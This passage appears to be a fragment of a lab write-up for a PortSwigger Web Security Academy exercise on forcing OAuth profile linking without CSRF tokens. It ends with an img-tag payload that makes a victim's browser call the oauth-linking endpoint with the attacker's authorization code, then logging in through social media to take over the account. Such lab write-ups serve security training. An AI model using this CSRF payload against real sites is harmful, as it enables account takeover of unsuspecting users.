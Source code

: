 ![picture 8](/assets/images/781f4577793bdadb50a8ce7b1f2535d18a81c39aa5f29b1421be05c3d7ff721b.png)  

And go into `My Account > Log in using Social Media Account` we'll get logged in instantly.

![picture 9](/assets/images/3a52afca9f1f1e996f3ae879a57a08629443bd340618c2398edc96fd424b2899.png)  

Exploit. PS, there is no CSRF tokens! Delivery via button `Deliver exploit to victim` where victim will open everything.
```
<img src="https://0a3300cf04a076a5c311b02e001f0080.web-security-academy.net/oauth-linking?code=CPbBtSiz6i_IziPL9VOJuw-OaQPYYz4FWeU3CwYPW4e"></img>
```
